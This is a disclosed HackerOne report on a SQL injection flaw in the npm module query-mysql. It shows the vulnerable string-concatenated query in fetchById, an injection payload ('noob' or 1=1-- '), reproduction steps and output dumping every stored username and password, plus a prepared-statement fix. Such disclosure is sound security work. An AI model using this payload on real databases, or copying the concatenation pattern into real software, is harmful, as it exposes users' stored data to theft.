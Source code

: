 # [query-mysql] SQL Injection due to lack of user input sanitization allows to run arbitrary SQL queries when fetching data from database

## Report Details
- **Report ID**: 311244
- **URL**: https://hackerone.com/reports/311244
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-02-01T00:58:42.031Z
- **Disclosed**: 2018-05-19T12:53:02.893Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

There is SQL Injection in query-mysql module. Due to lack of sanitization of user input, an attacker is able to craft SQL query and get any data from the database.

## Module

**query-mysql**

Install this module in your project like dependency

https://www.npmjs.com/package/query-mysql

version: 0.0.2

Stats
0 downloads in the last day
13 downloads in the last week
85 downloads in the last month

~1000 estimated downloads per year


## Description

Most of functions in ```query-mysql``` module used to manipulate data build query usign simple string concatenation. This leads to SQL Injection vulnerability, because an attacker is able to pass his own query and run any SQL on the database.

This is one of those functions, which allows to select record from the table depends on value for the column:

```javascript
// node_modules/query-mysql/lib/base.js, line 172
    fetchById: function (table, id, name_id, callback) {
        connect(function (connected) {
            if (connected) {

                connection.query("SELECT * FROM " + table + " WHERE " +name_id+"='"+ id+"'", function (err, rows, fields) {
                    connection.end();
                    console.log("fetchById");
                    //if (err) throw err;
                    if (err) {
                        callback("error", null);
                    }else{						
                        callback("success", rows);
                    };
                })

            }else{
                callback("error_connection", null);
            };
        })
    },
```

The query itself is simple string with values passed by the user concatenated with SQL:

```javascript
connection.query("SELECT * FROM " + table + " WHERE " +name_id+"='"+ id+"'"
```

If we assume, that ```table```, ```name_id``` and ```id``` will be passed as, respectively, ```users```, ```id``` and ```1```, we should get following query:

```sql
SELECT * FROM users WHERE id='1'
```
It returns record from table ```users```, where ```id``` equals 1.

Now, if we pass in ```id``` malicious query, like ```1\' OR 1=1-- ``` - we get this:

```sql
SELECT * FROM users WHERE id='1' OR 1=1-- 
```
This query returns **all** records from table ```users```


## Mitigation

```query-mysql``` relies on ```mysql``` module. This module allows to use Preparing Queries (Prepared Statements) - https://www.npmjs.com/package/mysql#preparing-queries:

```
You can use mysql.format to prepare a query with multiple insertion points, utilizing the proper escaping for ids and values. A simple example of this follows:

var sql = "SELECT * FROM ?? WHERE ?? = ?";
var inserts = ['users', 'id', userId];
sql = mysql.format(sql, inserts);

Following this you then have a valid, escaped query that you can then send to the database safely. This is useful if you are looking to prepare the query before actually sending it to the database. As 
```

This is the simplest way to avoid simple SQL Injection vulnerabilites.

## Steps To Reproduce:

- install ```query-mysql``` module:

```
$ npm install query-mysql
```

- log in to your local MySQL instance and create database ```test``` using following SQL:

```sql
-- Table structure for table `users`

DROP TABLE IF EXISTS `users`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `users` (
  `username` varchar(50) DEFAULT NULL,
  `password` varchar(50) DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8;
```

- populate data by adding couple of records:

```
mysql> select * from users;
+----------+----------+
| username | password |
+----------+----------+
| admin    | admin    |
| user     | user     |
| noob     | noob     |
+----------+----------+
3 rows in set (0.00 sec)
```


- create sample application:

```javascript
// app.js
'use strict'

const query = require('query-mysql')

query.configure({
  'host': '127.0.0.1',
  'user': 'root',
  'password': 'root',
  'database': 'test'
})

query.base.fetchById('users', 'noob', 'username', (msg, res) => {
  console.log(msg, res)
})
```

- run application:

```
$ node app.js
```

- result:

```
fetchById
success [ RowDataPacket { username: 'noob', password: 'noob' } ]
```

- Now, modify query into following one:

```javascript
// app.js
//... cut for readibility
query.base.fetchById('users', 'noob\' or 1=1-- ', 'username', (msg, res) => {
  console.log(msg, res)
})
```

- run application again:

```
$ node app.js
```

- this time result set contains all records from table ```users```:

```
fetchById
success [ RowDataPacket { username: 'admin', password: 'admin' },
  RowDataPacket { username: 'user', password: 'user' },
  RowDataPacket { username: 'noob', password: 'noob' } ]
```

Other functions in ```query-mysql``` module contains the same vulnerability. 

## Supporting Material/References:


- macOS 10.13.3
- Chromium 66.0.3333.0 (Developer Build) (64-bit) 
- Node.js version: v8.9.3
- npm version: 5.5.1
- mysql  Ver 14.14 Distrib 5.7.13, for osx10.11 (x86_64)


Please feel free to invite module maintainer to this report. I haven't contacted maintainer as I want to keep the process of fixing and disclosing bug consistent through HackerOne platform only.

I hope my report will help to keep Node.js ecosystem and its users safe in the future.

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability allows malicious user to fetch/manipulate data in database

## Attachments
No attachments

